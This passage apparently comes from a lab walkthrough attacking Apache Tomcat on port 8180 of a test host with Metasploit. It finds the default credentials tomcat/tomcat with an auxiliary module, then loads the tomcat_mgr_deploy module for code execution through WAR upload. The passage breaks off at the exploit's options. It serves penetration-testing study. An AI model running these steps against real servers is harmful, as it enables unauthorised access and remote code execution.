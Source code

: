 ### Port 8180 tomcat

First, let's see what information we can get using the **Tomcat Administration Tool Default Access** module:

``` plain
msf > use auxiliary/admin/http/tomcat_administration
msf auxiliary(tomcat_administration) > show options

Module options (auxiliary/admin/http/tomcat_administration):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        Use a proxy chain
   RHOSTS                        yes       The target address range or CIDR identifier
   RPORT        8180             yes       The target port
   THREADS      1                yes       The number of concurrent threads
   TOMCAT_PASS                   no        The password for the specified username
   TOMCAT_USER                   no        The username to authenticate as
   VHOST                         no        HTTP server virtual host

msf auxiliary(tomcat_administration) > set RHOSTS 192.168.127.154
RHOSTS => 192.168.127.154
msf auxiliary(tomcat_administration) > run

[*] http://192.168.127.154:8180/admin [Apache-Coyote/1.1] [Apache Tomcat/5.5] [Tomcat Server Administration] [tomcat/tomcat]
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

With credentials in hand, now we can use the **Apache Tomcat Manager Application Deployer Authenticated Code Execution** exploit:

> This module can be used to execute a payload on Apache Tomcat servers that have an exposed "manager" application. The payload is uploaded as a WAR archive 
> containing a jsp application using a PUT request. The manager application can also be abused using /manager/html/upload, but that method is not implemented in > this module. NOTE: The compatible payload sets vary based on the selected target. For example, you must select the Windows target to use native Windows 
> payloads.

``` plain
msf > use exploit/multi/http/tomcat_mgr_deploy
msf exploit(tomcat_mgr_deploy) > show options

Module options (exploit/multi/http/tomcat_mgr_deploy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   PATH      /manager         yes       The URI path of the manager app (/deploy and /undeploy will be used)
   Proxies                    no        Use a proxy chain
   RHOST                      yes       The target address
   RPORT     80               yes       The target port
   USERNAME                   no        The username to authenticate as
   VHOST                      no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```